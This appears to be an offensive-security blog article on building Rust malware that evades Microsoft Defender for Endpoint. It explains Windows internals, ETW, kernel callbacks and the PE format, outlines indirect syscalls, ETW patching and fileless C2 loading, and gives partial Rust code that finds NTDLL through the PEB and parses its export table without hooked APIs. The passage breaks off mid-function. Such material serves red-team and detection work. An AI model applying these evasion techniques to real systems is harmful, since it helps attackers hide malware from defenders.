Leveraging in-depth Windows Internals for Advanced EDR Evasion
Abstract
In this article, a variety of concepts related to EDR evasion and Windows internals will be tackled. Several techniques as well as a solution using Rust will be developed step by step. The solution will be tested mostly against Microsoft Defender for Endpoint (MDE). This article will focus on triggering least alerts and telemetry possible with a benign payload first, once this step is complete a C2 payload will be integrated. This article mostly compiles references from multiple sources, those references are listed in the X. References section.
The code of the Rust malware developped in this article can be found in this repository: Malware Development - Stargate
- Traditional techniques for evading EDR telemetry in APT operations
- The structure of Windows Portable Executables (PE)
- Resolving NTDLL's address and Export Address Table (EaT) via low-level structures
- Indirect syscalls, ETW patching and their limitations
- Evading detection from kernel callbacks
- Toward stealthier implementation
- Integrating command and control payloads (C2)
- Defeating static analysis: API hashing and obfuscation techniques
- State of the art
- References
I. Traditional Techniques for Evading EDR Telemetry in APT Operations
Traditional techniques used by APT groups will be studied first in order to maintain situational awareness and be aware of state of the art techniques used nowadays. As a result, this section will detail offensive techniques as well as protections implemented by Windows in order to have an overall panorama of what can be done. In order to understand modern kill chains, it is fundamental to understand what is behind functions of the Windows API and how an EDR works.
A. Inside a Windows API Call: Mechanisms and Execution Flow
Windows provides an API that implements all the functions that can be used in a Windows operating system. This API is implemented in user land meaning that the operating system is in charge of making low-level operations which are done in the kernel. Since the mid-2000s Windows does not allow sensitive modification in the kernel (PatchGuard feature) such as patching functions which could be used for EDR evasion. However, it is still possible to write drivers that execute in kernel mode, nonetheless they are restricted. The article will focus on developing a user land solution. Therefore, no operation on drivers will be implemented.
To illustrate the execution flow of a Windows API call, we will take the Notepad binary creating a new file on the file system. For this, Notepad will call the CreateFileA function of the Kernel32 DLL which will call the NtCreateFile function of the NT DLL, which hosts NT functions that are used to translate calls into kernel mode. The NTDLL is executed in user mode (or user land). Each NT function is linked to an operation in kernel mode using a System Service Number (SSN) which is the identifier of the wanted kernel operation.

To transfer the SSN, a function needs to push the value of the SSN in the EAX register and then call the syscall instruction. Once those instructions are called, the KiSystemService which is executed in kernel mode receives those parameters and resolves the corresponding kernel mode function using the System Service Descriptor Table (SSDT), which makes correspondences between SSNs and kernel functions. Once the function is resolved, it is called in the NT OS KRNL library.
B. Inner Workings of an EDR
Modern EDRs raise alerts based on a correlation of events by performing a dynamic and static analysis. Usually, a suspicious kill chain is needed for an EDR to trigger an alert.
EDRs perform static analysis using the signature of the executable by calculating the hash of the file, strings present in the executables, the PE header content and Yara rules that allow automation of those controls in order to detect known sequences or schemes in a file.
The entropy of artefacts is also computed during static analysis. If the entropy is beyond a certain threshold, meaning content of the file is too random which usually means an encryption algorithm has been used to obfuscate data such as a payload. The EDR will annotate it as suspicious since the entropy of the malware is beyond the threshold.
However, as the solution that will be created does not have a known signature yet, bypass techniques will focus on dynamic analysis performed by EDRs. First, EDRs perform API hooking which consists in hooking the called NT function by replacing the code in the NTDLL with the EDR's code. To do so, EDR replaces the MOV and SYSCALL instructions with a JMP instruction, which jumps into the EDR's code.

The EDR implements API hooking in user land as kernel mode is blocked as previously mentioned. Nonetheless, we will see that Windows provides kernel telemetry features for EDR providers to be able to subscribe to events happening in the kernel.
Historical EDR providers used to implement API hooking directly in the kernel which used to trigger Blue Screen of Death (BSoD) when badly implemented. That's why they decided to restrict actions in the kernel in the mid-2000s. This feature is called PatchGuard or Kernel Patch Protection.
Windows provides a first source of telemetry in user land which is called Event Tracing for Windows (ETW). Basically, ETW follows a publish/subscribe pattern meaning that there is a list of providers such as WMI, RPC, SMB, kernel events which produces events, and there are consumers such as EDRs, which are able to read a variety of events by subscribing to the wanted providers.

Nonetheless, this feature is implemented in user land. Therefore, it is possible to patch it by hooking the EtwEventWrite function and insert a return instruction at the beginning of the function in order to silence it. This technique is called API hooking, the same as the one EDRs implements which can be also used offensively.
To strengthen the existing mechanisms, Windows provides a mechanism which is called kernel callbacks where the kernel notifies the EDR by invoking directly the code implemented by the EDR in kernel mode, meaning the EDR driver (which is signed by Microsoft), when certain events occur. These events include:
- File operations: Create, delete and modify.
- Process creation or termination: PsSetCreateProcessNotifyRoutine.
- Thread creation: PsSetCreateThreadNotifyRoutine.
- Registry changes: CmRegisterCallback.
- Network events.

This constitutes a sturdy telemetry mechanism where an in-depth knowledge about Windows internals is needed in order to choose the right functions in the Windows API not to trigger kernel callbacks since they cannot be patched as it would require patching the kernel which is blocked in Windows by the PatchGuard protection.
As previously mentioned, the code executed by the EDR in the kernel (driver) is also subject to restriction applied by PatchGuard. Hence, the EDR is only able to receive notification about certain events being triggered but cannot tamper with the kernel such as hooking NT functions in the kernel which would trigger PatchGuard.
Another mechanism which also requires a signed driver to work is called minifilters which permits to have a debug view with more verbosity about file system's operations in the kernel. However, with a vulnerable driver this protection could be patched.
A technique worth mentioning to correlate and detect functions used is call stack inspection which consists in inspecting the call stack and deducing nested function calls and patterns by correlating stack return addresses, during dynamic analysis. Each time a function is called, the system creates a stack frame which contains the return address, the arguments and local variables of the called function. All of this is kept in the stack which is a data structure. To build the call stack, which keeps track of nested function calls to be able to return correctly after each function finishes, the debugger will read the stack pointer (SP) and the frame pointer (FP) and follow these pointers in between frames and resolve addresses to function names, in order to construct the call stack:

The concept of frame pointer (FP) disappears in x64 as the x64 stack pointer (RSP) which is a 64 bits register already contains this information. Hence, call stack inspection is only performed with RSP in x64.
Last but not least, Protected Process Light (PPL) permits to protect a process from being stopped by another process, accessing its virtual memory from another process, attaching a debugger from another process, impersonating its threads, etc. LSASS uses PPL since it is not possible to attach a debugger to it so the command privilege::debug which grants the SeDebugPrivilege right to a token is not granted, therefore the LSASS process cannot be opened, and credentials cannot be read from memory.
Windows by itself implements a few memory protection mechanisms such as Address Space Layout Randomization (ASLR) which randomize the memory space during each execution of a program in order to avoid memory modifications that can be made when a program has a static memory space. Data Execution Prevention (DEP) and Structured Exception Handler Overwrite Protection (SEHOP) are two protections that aim at reducing specific types of buffer overflow exploits. Credential Guard is a protection that uses virtualization to isolate the system's secrets to reduce credentials thefts.
Windows also implements malware protection which is the AntiMalware Scan Interface (AMSI) which scans Powershell scripts, Windows Script Host like VBScript, Office macros and certain .Net runtimes. Therefore, other scripting languages such as Rust are not subject to the AMSI, which reinforces the conviction of choosing Rust to develop malware.
The next two sections will explore how modern APT groups defeat EDR monitoring.
C. APT Operations: Active Manipulation
The first approach seen is called active manipulation and is centered around vulnerable drivers. This approach is considered aggressive and not stealthy. This approach aims at shutting down the EDR's agent by cutting the EDR's network, then finding a vulnerable driver to shut the EDR's process down completely by using kernel mode privileges. In some cases, API hooking was even performed by threat actors on functions such as NtOpenProcess in order to make the EDR unable to open the malware's process. Nonetheless, this approach makes a lot of noise which increases the likelihood of detection.

Nonetheless, this approach requires local privileges escalation first, since modifying the hosts file is needed to cut the EDR's network. Then, a vulnerable driver is used to shut down the EDR's agent. Modern SIEM solutions trigger an alert when an agent running on an endpoint is not responding anymore. As a result, we won't use this approach in the solution we will develop as a stealthy approach is wanted. This kill chain will attract the attention of the blue team.
D. APT Operations: Passive Evasion
Passive evasion consists in knowing what the EDR is monitoring and adapting the evasion accordingly. In modern operations, this translates in writing a dropper that will use indirect syscalls in order to evade user land hooking from the EDR, cut the EDR's telemetry by patching ETW and spoof the PID of another process to enroll it as the parent PID in the malware's process. All those evasion techniques aim at loading the C2 shellcode in memory in a fileless manner meaning no files are written on the file system and with a multistage loader which means that the payload is loading progressively in memory, therefore, the malware never was entirely in the system from the beginning.

This approach will be adopted to build the solution which will aim at making the least noise possible.
II. The Structure of Windows Portable Executables (PE)
First, it is important to understand how a process works. A process is an instance of a program in execution, typically launching an executable. Each process has an allocated Virtual Address Space (VAS), similarly each VAS is sectioned in segments .text (text section where the code resides), .data (data section containing initialized global variables and static variables), .rdata (read only initialized data section containing read-only initialized global variables and read-only static data variables), .pdata (exception handling section), .bss (BSS section holding uninitialized global and static data variables), .rsrc (resource section which safeguards resources such as images, icons and strings), .idata (section which details imported functions from other DLLs), .edata (section which details exported functions by the executable), .reloc (relocation section for relocating the executable's code and data when loaded in memory) and .tls (thread local storage) which provides specific storage for each thread running in the program. Each process also maintains a table of handles which is a catalog of references to different system objects (files, devices, registry key, etc.). Each process inherits the access token of the user that ran the executable, this token describes the process's privileges. Each process uses threads to execute tasks. A process can implement one or more threads.
Windows uses Portable Executable (PE) to encapsulate Dynamic Link Libraries (DLL) which can have the .exe, .dll, .srv (kernel modules) or .cpl extensions. Each PE has an MS-DOS section, a NT headers section (PE signature, file header, an optional header that is actually mandatory contains data directories), sections headers and sections.

Each of those sections are described in memory using structures. Fields beginning by PointerTo are the offset in bytes from the beginning of the file, fields beginning by Virtual are relative virtual addresses (RVA) where if the ImageBase reference is added to the field's value, the virtual address of the wanted element can be found, the real memory address is the absolute reference in memory however this concept won't be used as VAS is used for processes.
The operating system is in charge of mapping pages, which are chunks of 4KB from the VAS, to frames, which are chunks of 4KB in real physical memory. The Memory Management Unit (MMU) is in charge of making the effective mapping using the Translation Lookaside Buffer (TLB) which caches recent mapping between pages and frames, as well as the swap space which is an extension on disk of the RAM when the RAM is full.
Primarily, the MS-DOS header is present because of legacy purposes, Microsoft added this header in order for PE files to have the capacity not to be executed on MS-DOS which is a legacy real time OS developed by Windows in the 80s. Hence, if it is tried to start a PE file on MS-DOS, the DOS stub containing "This program cannot be run in DOS mode" will show. So, the MS-DOS part is only for legacy purposes.
The NT headers section implements the _IMAGE_NT_HEADERS structure where the first field is Signature, its value should be 0x50450000 which is "PE\0\0", if its value is different the loader will refuse to load the file as it represents a PE executable file. The second field is FileHeader which implements the _IMAGE_FILE_HEADER structure which mostly contains the field Machine which indicates which type of machine the file was compiled with, the NumberOfSections indicates the number of sections present, the TimeDateStamp which specifies the date of creation of the file and the SizeOfOptionalHeader which gives the size of the optional header. The last field is the OptionalHeader which is mandatory and implements the _IMAGE_OPTIONAL_HEADER which contains all the necessary information for the file to be loaded by the loader. This structure contain the Magic field which specifies the architecture (32 or 64 bits), the AddressOfEntryPoint which indicates the address of the entrypoint of the executable code, the ImageBase which indicates the default address of the first byte of the image when it is loaded in memory, the SizeOfImage field that specifies the size of the file and the Data Directory field which implements a table of IMAGE_DATA_DIRECTORY type. The Data Directory field is important because it contains the IMAGE_DIRECTORY_ENTRY_EXPORT which contains the address of exported functions which is commonly called the Export Address Table (EAT), it also contains the IMAGE_DIRECTORY_ENTRY_IMPORT which contains the address of the imported functions which is commonly called the Import Address Table (IAT), and it contains the IMAGE_DIRECTORY_ENTRY_BASERELOC which permits the executable to be rebased to a new ImageBase address, using this attribute as a buffer value, before loading the executable into memory.

When the term image is employed, it is in the context of compiling. Indeed, when code is compiled, it first gets compiled by a compiler which produces a file that translates the code into Assembly language, then it gets assembled using the Assembler which produces a file in machine code called an object file and is usually in COFF (Common Object File Format). Last, the object file needs to go through the linker in order to resolve dependencies, this will produce an image file, that is the term employed below. This process ensures that all references between different parts of the program are correctly resolved, allowing the code to function as a unit.
The section headers part is an array of multiple elements of IMAGE_SECTION_HEADER. There are as many elements as sections present in the file. Each structure contains essential information for a section to be loaded in memory, such as the VirtualAddress which is the RVA of the first byte of the loaded section in memory, the VirtualSize which is the size of the section, Characteristics which allows to specify flags (read-only section, etc.), the Name which indicates the section's name.

All that information is used in order to instantiate a new process loading the wanted image. First, the PE file triggers a new process creation which makes the kernel create the EPROCESS structure in kernel mode. As a second step, the operating system reserves the needed virtual memory for the process which is the Virtual Address Space (VAS) in which the Process Environment Block (PEB) and Thread Environment Block (TEB) live. The PEB and TEB live in user mode as they exist for the code to be able to execute without constantly asking the kernel in which the EPROCESS structure lives. Third, sections of the PE file need to be mapped in memory as the PE file is not plainly copied into memory. Fourth, the operating system resolves the Import Address Table (IAT) such as the kernel32.dll DLL for the CreateFileA function. Fifth, resolved DLLs need to be loaded into the process's memory using Windows default loader which is LdrpLoadDLL. Those DLLs keep the PE structure when they are loaded in the process's memory as they are just a copy of the DLL on the disc. Finally, a thread is created to execute the process's tasks and placed at the Original Entry Point (OEP) in order to start the program's execution.

III. Resolving NTDLL's Address and Export Address Table (EAT) via Low-Level Structures
Resolving the NTDLL will enable us to use NT functions which are the last user mode piece of code before the execution in the kernel. This will permit direct syscalls. First, the address of the NTDLL, which is loaded in every process needs to be resolved. Second the table of exported functions needs to be resolved from the NTDLL's PE structure loaded in memory. This second step will permit resolving NT (exported) functions. Then, it will enable us to retrieve the syscall number (SSN) from NT functions in order to implement direct syscalls using assembly.
Actually, syscalls can be performed by Nt or Zw functions which implement the exact same syscall stub. However, the difference lies in the source of the caller for Microsoft. A kernel-mode driver calls the Zw version of a native system services routine to inform the routine that the parameters come from a trusted kernel-mode source. In this case, the routine assumes that it can safely use the parameters without first validating them. However, if parameters might be from either a user-mode source or a kernel-mode source, the driver instead calls the Nt version of the routine, which determines, based on the history of the calling thread, whether parameters originated from user mode or kernel mode. Indeed, if the source is identified originating from user land, parameters will be validated before making the syscall. So, a syscall number can also be found from the Zw variant.
The NTDLL's address can be found by parsing the PEB structure. This is the stealthiest way since the combination of GetModuleHandleA and GetModuleInformation functions of the Windows API could be used to retrieve the NTDLL's address as well, however they might be hooked by the EDR. That's why using the PEB is stealthier. In the PEB, loaded DLLs are present and represented by a double-linked list that can be browsed until the NTDLL is found. This list implements the Flink field which is a pointer to the next loaded DLL and the Blink field which is a pointer to the previous loaded DLL. When the NTDLL is found, a suite of structures allows to find the NTDLL's address in the DllBase field:
unsafe fn get_peb() -> *mut u8 {
let peb: *mut u8;
#[cfg(target_arch = "x86_64")]
core::arch::asm!(
"mov {}, gs:[0x60]",
out(reg) peb
);
#[cfg(target_arch = "x86")]
core::arch::asm!(
"mov {}, fs:[0x30]",
out(reg) peb
);
peb
}
pub fn get_ntdll_base(dll_name_to_search: String) -> *mut core::ffi::c_void {
unsafe {
let mut dll_addr: *mut core::ffi::c_void = ptr::null_mut();
let ppeb = get_peb() as *mut windows::Win32::System::Threading::PEB;
let pldr: *mut windows::Win32::System::Threading::PEB_LDR_DATA = (*ppeb).Ldr;
let adress_first_plist: *const windows::Win32::System::Kernel::LIST_ENTRY = &(*pldr).InMemoryOrderModuleList;
let adress_first_node: *const windows::Win32::System::Kernel::LIST_ENTRY = (*adress_first_plist).Flink;
let mut node = adress_first_node;
while node != adress_first_plist {
node = node.sub(1);
let p_data_table_entry: *mut windows::Win32::System::WindowsProgramming::LDR_DATA_TABLE_ENTRY = node as *mut _;
let full_dll_name: String = String::from(
pwstr_to_string((*p_data_table_entry).FullDllName.Buffer.0)
.split("\\").last().unwrap()
);
if dll_name_to_search == full_dll_name {
dll_addr = (*p_data_table_entry).DllBase;
}
node = node.add(1);
node = (*node).Flink;
}
dll_addr
}
}The PEB is resolved using the GS register on 64 bits architectures and the FS register on 32 bits architectures. The GS and FS registers respectively point to the TEB which contains a pointer to the PEB, at the 0x60 offset for x86_64 and the 0x30 offset for x86.
Once the NTDLL's address is resolved, addresses of NT functions can be resolved using the IMAGE_DIRECTORY_ENTRY_EXPORT of the Data Directory of the Optional Header section of a PE image, mentioned in the previous section. This is possible because a copy of the ntdll.dll file is loaded into memory which keeps the PE structure, therefore the EAT can be browsed (a combination of three arrays indexing each other) and parsed in order to know the target Nt function's address.
On the other hand, the GetProcAddress function of the Windows API could be used to resolve Nt functions’ addresses, however the EDR might have hooked this function.
pub fn get_function_address(ntdll_function: &str) -> *mut core::ffi::c_void {
let j: i32 = 0;
let mut RVA: usize = 0;
let ntdll_base_address = get_instance();
let p_img_dos_head: PIMAGE_DOS_HEADER = ntdll_base_address as PIMAGE_DOS_HEADER;
let p_img_nt_head: PIMAGE_NT_HEADERS = unsafe {
(ntdll_base_address.add((*p_img_dos_head).e_lfanew as usize)) as PIMAGE_NT_HEADERS
};
let p_img_exp_dir: PIMAGE_EXPORT_DIRECTORY = unsafe {
(ntdll_base_address.add(
(*p_img_nt_head).OptionalHeader
.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT.0 as usize]
.VirtualAddress as usize
)) as PIMAGE_EXPORT_DIRECTORY
};
let address: *const u32 = unsafe {
ntdll_base_address.add((*p_img_exp_dir).AddressOfFunctions as usize) as *const u32
};
let name: *const u32 = unsafe {
ntdll_base_address.add((*p_img_exp_dir).AddressOfNames as usize) as *const u32
};
let ordinal: *const u16 = unsafe {
ntdll_base_address.add((*p_img_exp_dir).AddressOfNameOrdinals as usize) as *const u16
};
unsafe {
for j in 0..=(*p_img_exp_dir).NumberOfNames {
let name_rva = *name.add(j as usize);
let name_cstr = std::ffi::CStr::from_ptr(
ntdll_base_address.add(name_rva as usize) as *const i8
);
